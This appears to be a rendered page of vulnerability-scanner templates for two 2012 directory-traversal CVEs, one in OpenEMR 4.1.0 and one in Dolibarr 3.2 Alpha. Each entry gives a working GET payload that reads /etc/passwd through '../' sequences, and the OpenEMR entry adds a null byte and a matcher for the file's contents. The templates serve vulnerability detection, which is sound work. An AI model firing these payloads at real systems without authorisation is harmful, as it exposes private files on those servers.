 ## Description

- Multiple directory traversal vulnerabilities in OpenEMR 4.1.0 allow remote authenticated users to read arbitrary files via a .. (dot dot) in the formname parameter to (1) contrib/acog/print_form.php; or (2) load_form.php, (3) view_form.php, or (4) trend_form.php in interface/patient_file/encounter.
- severity - high
- tags - lfi,openemr,traversal,edb,cve,cve2012

## Requests

- Method - GET

### URL

- {{BaseURL}}/contrib/acog/print_form.php?formname=../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Dolibarr ERP/CRM 3.2 Alpha - Multiple Directory Traversal Vulnerabilities

## Description

- Multiple directory traversal vulnerabilities in Dolibarr CMS 3.2.0 Alpha allow remote attackers to read arbitrary files and possibly execute arbitrary code via a .. (dot dot) in the (1) file parameter to document.php or (2) backtopage parameter in a create action to comm/action/fiche.php.
- severity - high
- tags - cve,cve2012,lfi,dolibarr,traversal,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/document.php?modulepart=project&file=../../../../../../../etc/passwd

### Matchers
